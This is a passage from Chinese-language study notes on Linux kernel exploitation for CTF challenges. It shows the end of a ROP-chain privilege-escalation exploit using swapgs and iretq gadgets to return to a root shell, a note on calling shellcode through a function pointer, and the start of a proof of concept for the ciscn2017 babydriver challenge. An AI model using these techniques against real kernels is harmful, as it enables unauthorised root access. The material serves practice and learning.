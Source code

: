 ```c
	// getchar();

	payload = malloc(0x800);
	memset(payload,0,0x800);
	
	for(i=0;i<8;i++)
	{
		payload[i]=0;
	}

	payload[i++] = canary;
	payload[i++] = 0;							//fake rbx
	payload[i++] = (uint64_t)getRoot;
	payload[i++] = K(0xffffffff81a012da);		// swapgs ;popfq; ret
	payload[i++] = 0;				
	payload[i++] = K(0xffffffff81050ac2);		//iretq; ret				
	payload[i++] = (uint64_t)shell;	
	payload[i++] = user_cs;	
	payload[i++] = user_eflags;	
	payload[i++] = user_sp;	
	payload[i++] = user_ss;	


	core_write(fd,payload,0x800);
	core_copy(fd,0xf000000000000000+30*8);
	
	return 0;
}
```

* 说明下函数指针。

声明时可以`ret_type (*ptr)(agrv_type,...);`

赋值时可以`ptr = fun;` 或者 `ptr = &fun;`

调用时可以`ptr(argv);` 或者 `(*ptr)(argv);`

编译器不比人愚蠢，以上方式是能够分辨出来的。

另外在执行shellcode时就可以 `((void (*)(void))shellcode)()`;

### 习题-ciscn2017-babydriver

* poc

```c
#include <stdio.h>
#include <fcntl.h>

int main()
{
	int fd1;
	int fd2;
	int pid;
	char* buf;

	fd1 = open("/dev/babydev",2);
	fd2 = open("/dev/babydev",2);
	if(fd1<0||fd2<0)
	{
		printf("[*] open failure !");
		exit(-1);
	}
	ioctl(fd1,0x10001,0xa8);
	close(fd1);
```